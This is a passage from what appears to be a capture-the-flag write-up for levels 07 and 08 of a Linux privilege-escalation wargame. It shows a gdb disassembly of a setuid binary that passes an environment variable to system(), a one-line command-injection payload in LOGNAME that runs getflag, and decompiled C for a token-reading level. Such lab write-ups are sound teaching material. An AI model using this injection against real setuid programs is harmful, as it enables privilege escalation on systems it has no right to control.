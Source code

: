 ```
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave  
   0x080485a0 <+140>:   ret    
End of assembler dump.
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s "
```

This program tries to display the value contained in `LOGNAME`, but is susceptible to command injection.

``LOGNAME='"`getflag`"' ./level07``

## level08

There is an unreadable token file and a `level08` executable with the setuid bit set. We disassembled the binary and came up with this approximate C code:

```c
#define BUF_SIZE 1024

int main(int argc, char *argv[]) {
    if (argc != 2) {
        printf("%s [file to read]\n", argv[0]);
        exit(1);
    }
    if (strstr(argv[1], "token")) {
        printf("You may not access '%s'\n", argv[1]);
        exit(1);
    }
    int fd = open(argv[1], O_RDONLY);
    if (fd == -1) {
        err(1, "Unable to open %s", argv[1]);
    }
    char buf[BUF_SIZE];
    ssize_t bytesRead = read(fd, buf, BUF_SIZE);
    if (bytesRead == -1) {
        err(1, "Unable to read fd %d", fd);
    }
    write(1, buf, bytesRead);
    return 0;
}
```
